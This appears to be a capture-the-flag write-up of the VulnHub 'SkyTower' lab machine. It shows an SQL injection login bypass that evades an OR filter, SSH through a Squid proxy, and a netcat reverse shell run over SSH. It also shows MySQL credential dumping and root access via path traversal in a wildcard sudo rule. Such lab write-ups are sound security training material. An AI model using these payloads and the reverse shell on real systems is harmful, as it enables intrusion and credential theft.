

## Skytower Writeup

 

So we start with the usual nmap scan and checkout what's going on.

```
nmap -v -sV -sC 192.168.56.101
```
```
Nmap scan report for 192.168.56.101
Host is up (0.00013s latency).
Not shown: 997 closed ports
PORT     STATE    SERVICE    VERSION
22/tcp   filtered ssh
80/tcp   open     http       Apache httpd 2.2.22 ((Debian))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.22 (Debian)
|_http-title: Site doesn't have a title (text/html).
3128/tcp open     http-proxy Squid http proxy 3.1.20
|_http-server-header: squid/3.1.20
|_http-title: ERROR: The requested URL could not be retrieved
MAC Address: 08:00:27:54:4A:37 (Oracle VirtualBox virtual NIC)
```
Ok then so a Squid, a webserver, and ssh. Checking out the website we see a Skytech Login form.



So try admin' in the input box and it  shows us a sql error.
```
There was an error running the query [You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''''' at line 1]
```
So we try doing the usual ' OR 1=1# and we get nothing. Checking the error message again it seems like OR is being filtered out.
```
curl --data "email=admin&password=' OR 1=1#" http://192.168.56.101/login.php
There was an error running the query [You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '11#'' at line 1]
```
So we replace the OR with || instead and it works we are now logged in as the user john.
```
curl --data "email=admin&password=' || 1=1#" http://192.168.56.101/login.php
```


OK then we have some creds for the ssh that's behind this proxy. So we setup our /etc/proxychains.conf to use the http proxy on port 3128  then we can ssh into the box.
```
root@kali:~/machines/skytower# proxychains ssh john@192.168.56.101
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-192.168.56.101:3128-<><>-192.168.56.101:22-<><>-OK
The authenticity of host '192.168.56.101 (192.168.56.101)' can't be established.
ECDSA key fingerprint is SHA256:QYZqyNNW/Z81N86urjCUIrTBvJ06U9XDDzNv91DYaGc.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.56.101' (ECDSA) to the list of known hosts.
john@192.168.56.101's password:
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Mar 18 15:08:41 2018

Funds have been withdrawn
Connection to 192.168.56.101 closed.
```
Umm maybe not then, we lose our $2 and get booted? That's not good but we can still run a command over ssh, so let's get a quick shell with netcat.
```
root@kali:~/machines/skytower# proxychains ssh john@192.168.56.101 nc 192.168.56.102 443 -e /bin/sh
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-192.168.56.101:3128-<><>-192.168.56.101:22-<><>-OK
john@192.168.56.101's password:

───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
root@kali:~# nc -nlvp 443
listening on [any] 443 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.101] 40670
id
uid=1000(john) gid=1000(john) groups=1000(john)
```
And we have no python so it seems like we might be stuck in this crappy shell. No worries though moving forward we can see a couple more users on the box, but we can't look at their home folders. So we check out the login.php from /var/www and it appears to give us the mysql password.
```
$db = new mysqli('localhost', 'root', 'root', 'SkyTech');
```
We can also see the filtering that is happening from before that wouldn't allow us to use OR operators.
```
$sqlinjection = array("SELECT", "TRUE", "FALSE", "--","OR", "=", ",", "AND", "NOT"); 
$email = str_ireplace($sqlinjection, "", $_POST['email']); 
$password = str_ireplace($sqlinjection, "", $_POST['password']);
```

So with this crap shell we can't explore the Mysql very easily but we can exec one command at a time like we've been doing. 
```
mysql -uroot -proot -e 'show databases;'
Database
information_schema
SkyTech
mysql
performance_schema
mysql -uroot -proot -e 'use SkyTech; show tables;'
Tables_in_SkyTech
login
mysql -uroot -proot -e 'use SkyTech; show tables; select * from login;'
Tables_in_SkyTech
login
id      email   password
1       john@skytech.com        hereisjohn
2       sara@skytech.com        ihatethisjob
3       william@skytech.com     senseable
```
Good stuff. So William's password doesn't seem to work, but we login as Sara and get booted as usual. We setup a listener and get a shell like before then notice we can run a couple commands as root which are configured horribly with wildcard characters.
```
root@kali:~# nc -nlvp 443
listening on [any] 443 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.101] 40684
sudo -l
Matching Defaults entries for sara on this host:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sara may run the following commands on this host:
    (root) NOPASSWD: /bin/cat /accounts/*, (root) /bin/ls /accounts/*
```
So lets try cating the root flag with some path traversal should be easy enough.
```
sudo cat /accounts/../../../../../../root/flag.txt
Congratz, have a cold one to celebrate!
root password is theskytower
```
Awesome so let's get our root shell then.
```
root@kali:~/machines/skytower# proxychains ssh root@192.168.56.101
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-192.168.56.101:3128-<><>-192.168.56.101:22-<><>-OK
root@192.168.56.101's password:
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Mar 18 16:30:19 2018 from 192.168.56.101
root@SkyTower:~# id
uid=0(root) gid=0(root) groups=0(root)
```
So that was pretty fun, thanks a bunch @telspacesystems and @VulnHub for the challenges.
 

